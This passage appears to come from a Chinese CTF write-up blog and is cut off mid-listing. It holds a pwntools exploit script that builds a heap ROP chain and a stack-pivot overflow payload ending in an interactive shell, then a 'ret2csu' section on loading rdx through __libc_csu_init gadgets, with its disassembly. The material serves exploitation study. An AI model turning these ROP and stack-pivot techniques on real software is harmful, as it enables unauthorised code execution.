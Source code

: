 ```python

heap_payload = p64(useless)
heap_payload += p64(pop_rax) + p64(got_plt)
heap_payload += p64(mov_rax_rax)
heap_payload += p64(add_rax_rbp)
heap_payload += p64(jmp_rax)

#stack
payload = b'a'*0x20
payload += p64(offset) # rbp
payload += p64(pop_rax)
payload += p64(buf_address)
payload += p64(xchg_rax_rsp)

sh.send(heap_payload + b'b'*100)
raw_input()
sh.send(payload)

sh.interactive()

```

## ret2csu 2021-04-04 00:35
题目中主要的困难在于构造调用ret2win中的rdx，因为从代码里是搜索不到类似：pop rdx，ret的代码片的，但通过观察可以看到在ret2csu的__libc_csu_init中包含部分可以对rdx赋值的代码，如下：
text:0000000000400640                 public __libc_csu_init
.text:0000000000400640 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
.text:0000000000400640 ; __unwind {
.text:0000000000400640                 push    r15
.text:0000000000400642                 push    r14
.text:0000000000400644                 mov     r15, rdx
.text:0000000000400647                 push    r13
.text:0000000000400649                 push    r12
.text:000000000040064B                 lea     r12, __frame_dummy_init_array_entry
.text:0000000000400652                 push    rbp
.text:0000000000400653                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:000000000040065A                 push    rbx
.text:000000000040065B                 mov     r13d, edi
.text:000000000040065E                 mov     r14, rsi
.text:0000000000400661                 sub     rbp, r12
.text:0000000000400664                 sub     rsp, 8
.text:0000000000400668                 sar     rbp, 3
.text:000000000040066C                 call    _init_proc
.text:0000000000400671                 test    rbp, rbp
.text:0000000000400674                 jz      short loc_400696
.text:0000000000400676                 xor     ebx, ebx
.text:0000000000400678                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400680
.text:0000000000400680 loc_400680:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400680                 mov     rdx, r15
.text:0000000000400683                 mov     rsi, r14
.text:0000000000400686                 mov     edi, r13d
.text:0000000000400689                 call    qword ptr [r12+rbx*8]
.text:000000000040068D                 add     rbx, 1
.text:0000000000400691                 cmp     rbp, rbx
.text:0000000000400694                 jnz     short loc_400680
.text:0000000000400696
.text:0000000000400696 loc_400696:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400696                 add     rsp, 8
.text:000000000040069A                 pop     rbx
.text:000000000040069B                 pop     rbp
.text:000000000040069C                 pop     r12